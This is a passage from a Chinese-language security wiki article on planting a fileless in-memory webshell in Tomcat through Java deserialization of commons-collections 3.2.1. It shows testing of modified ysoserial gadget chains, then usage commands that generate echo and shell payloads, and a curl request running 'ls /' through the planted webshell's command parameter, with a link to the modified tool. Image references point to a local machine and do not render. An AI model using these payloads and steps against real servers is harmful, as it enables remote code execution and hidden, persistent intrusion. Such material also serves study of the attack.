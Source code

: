 就生成了CommonsCollections11ForTomcatShellInject的payload了

0x03 测试
---------

上一节中，我们生成了两个payload，接下来，我们启动一个具有`commons-collections:commons-collections:3.2.1`依赖的服务端，并且存在反序列化的接口。

然后我们把步骤一和步骤二生成的payload依次打过去

![](/Users/aresx/Documents/VulWiki/.resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId27.png)

![](/Users/aresx/Documents/VulWiki/.resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId28.png)

可以依次看到，两个步骤都返回500异常，相关信息证明已经执行反序列化成功了，接下来我们试试这个内存Webshell

![](/Users/aresx/Documents/VulWiki/.resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/基于Tomcat的内存Webshell无文件攻击技术/media/rId30.png)

完美，具体ysoserial改造后的代码，我已经上传到github，有兴趣可以看看
[ianxtianxt/ysoserial](https://github.com/ianxtianxt/ysoserial)

### 使用方法

> Tomcat通杀回显-内存webshell
>
> 例：

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
    CommonsCollections11ForTomcatEchoInject > echo.payload

> 然后使用上述得到的恶意序列化数据echo.payload攻击一遍，然后再继续下面的操作

    java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
    CommonsCollections11ForTomcatShellInject > shell.payload

> 使用恶意序列化数据shell.payload再攻击一遍，可以得到一个内存级的webshell，任意路径，参数threedram为命令

    curl http://127.0.0.1:8080/aaa\?threedr3am\=ls%20/

参考链接
--------

> https://xz.aliyun.com/t/7388\#toc-3
